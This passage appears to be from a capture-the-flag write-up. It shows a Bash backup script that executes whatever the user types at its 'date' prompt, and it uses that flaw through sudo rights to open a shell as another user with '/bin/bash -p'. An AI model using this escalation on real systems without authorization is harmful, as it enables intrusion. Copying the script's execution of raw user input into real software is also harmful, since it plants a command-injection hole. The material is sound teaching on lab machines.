 ```bash
sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

Here, dale is allowed to run an `admin_checks` command as gyles without needing to provide a password. 

```bash
dale@TEAM:~$ ls -l /home/gyles/admin_checks
-rwxr--r-- 1 gyles editors 399 Jan 15 21:52 /home/gyles/admin_checks

dale@TEAM:~$ file /home/gyles/admin_checks
/home/gyles/admin_checks: Bourne-Again shell script, ASCII text executable

dale@TEAM:~$ cat /home/gyles/admin_checks
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

We cannot modified the code, so we will need to find a way to exploit the existing code. 

I've tried to create a sleep file in `/tmp` and get script to execute it. But I was not allowed to modify PATH when running sudo. 

Looking at code again, it request for the timestamp of the backup file. Whatever you pass there will be executed. So we can launch bash as gyle.

```bash 
sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: a
Enter 'date' to timestamp the file: /bin/bash -p
The Date is 

whoami
gyles
```
